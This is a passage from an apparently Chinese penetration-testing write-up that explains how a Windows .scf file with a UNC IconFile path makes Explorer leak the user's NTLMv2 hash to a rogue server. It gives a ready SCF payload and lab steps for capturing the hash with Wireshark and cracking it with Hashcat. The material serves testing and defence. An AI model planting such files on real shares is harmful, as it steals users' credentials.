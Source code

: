 格式示例：

```
[Shell]
Command=2
IconFile=explorer.exe,3
[Taskbar]
Command=ToggleDesktop
```

IconFile属性支持UNC路径，也就是说，可以指定文件服务器上的某个文件，例如`IconFile=\\192.168.62.130\test\explorer.exe,3`

特别的地方： 使用Explore.exe打开包含该文件的路径时，由于scf文件包含了IconFile属性，所以Explore.exe会尝试获取文件的图标，如果图标位于文件服务器，就会访问该文件服务器

直观理解： 打开某一文件夹，该文件夹下面包含scf文件，scf文件的IconFile属性指向文件服务器，本机会自动访问该文件服务器，在访问过程中，默认先使用本机的用户名和密码hash尝试登录。如果文件服务器抓取数据包，就能够获得NTLMv2 Hash

### 实际测试：

正常文件服务器IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

客户端IP： 192.168.62.135


#### 1、正常文件服务器共享目录下添加文件test.scf，内容如下：

```
[Shell]
Command=2
IconFile=\\192.168.62.130\test\test.ico
[Taskbar]
Command=ToggleDesktop
```

**注：**

IconFile指向伪造文件服务器，test.ico不存在

#### 2、在伪造文件服务器上使用wireshark进行抓包

#### 3、客户端访问正常文件服务器

#### 4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-23/2-1.png)

构造特定格式`username::domain:challenge:HMAC-MD5:blob`，使用Hashcat破解即可

具体破解方法可参考文章：

《Windows下的密码hash——NTLM hash和Net-NTLM hash介绍》

《渗透技巧——利用netsh抓取连接文件服务器的NTLMv2 Hash》

经过实际测试，我们可以看到，利用的关键是要在文件服务器上添加scf文件，等待用户访问

